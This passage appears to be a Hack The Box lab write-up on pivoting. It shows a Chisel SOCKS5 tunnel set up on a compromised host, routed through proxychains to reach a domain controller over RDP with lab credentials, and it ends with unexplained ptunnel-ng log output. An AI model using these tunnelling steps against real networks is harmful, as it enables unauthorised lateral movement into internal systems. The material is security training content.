 ### **Building the Chisel Binary**

```
dollarboysushil@htb[/htb]$ cd chisel
													 go build
```

### **Transferring Chisel Binary to Pivot Host**

```
dollarboysushil@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
ubuntu@10.129.202.64's password:
chisel                                        100%   11MB   1.2MB/s   00:09
```

### **Running the Chisel Server on the Pivot Host**

```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

### **Connecting to the Chisel Server**

```
dollarboysushil@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connecte
```

We can see chisel has created TCP/UDP unnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080

Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

- `socks5 127.0.0.1 1080` → in proxychains conf file

### **Pivoting to the DC**

- `dollarboysushil@htb[/htb]**$** proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123`


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.